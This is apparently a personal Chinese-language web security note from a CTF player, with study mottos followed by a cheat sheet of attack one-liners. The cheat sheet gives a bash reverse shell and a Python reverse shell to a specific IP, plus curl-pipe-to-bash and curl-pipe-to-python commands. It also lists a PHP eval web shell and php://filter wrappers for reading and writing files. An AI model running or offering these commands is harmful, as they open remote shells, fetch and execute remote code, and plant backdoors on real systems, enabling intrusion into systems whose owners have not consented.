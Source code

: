 ```yaml
---
title: Web 安全笔记
date: 2018-1-26 14:10:17
tags:  笔记
abstract: 我听过的会忘掉，我看过的能记住，我做过的才真正明白。
---
```


- 至少完整看完与练习好一本书

+ 每次比赛都当成查漏补缺，不会的赛后一定要搞懂。

- 至少过一遍，这都没过一遍，视野会局限
- 行之说：「我没看过Python的书，却熟读官方手册……」

- 1研究：研究东西，有足够洞察力，研究水准不错
- 2研发：hack idea自己有魄力实现，不懂研发的黑客如同不会游泳的海盗
- 3工程：研发出来的需要实战、需要工程化，否则只是玩具，而不能成为真的武器

**吾日三省吾身**

+ 能不能更多（办法、知识）？

+ 能不能更深？

+ 能不能更底层？

## 常用信息

```shell
# bash 弹
bash -i >& /dev/tcp/47.101.220.241/8888 0>&1

curl 47.101.220.241|bash

# ip 转换
47.101.220.241 → 795204849

# py 弹（不太稳定）
#coding:utf-8
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("47.101.220.241",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

curl 795204849|python  # 这样不行？直接404
curl 47.101.220.241|python

<?php eval($_POST[1]);?>

'0123456789abcdefghijklmnopqrstuvwxyz!"#$&\'()*+,-./:;?@[\\]^`{|}~ <=>_'; // excluded: %

php://filter/read=convert.base64-encode/resource=index
php://filter/write=convert.base64-decode/resource=index.php
```
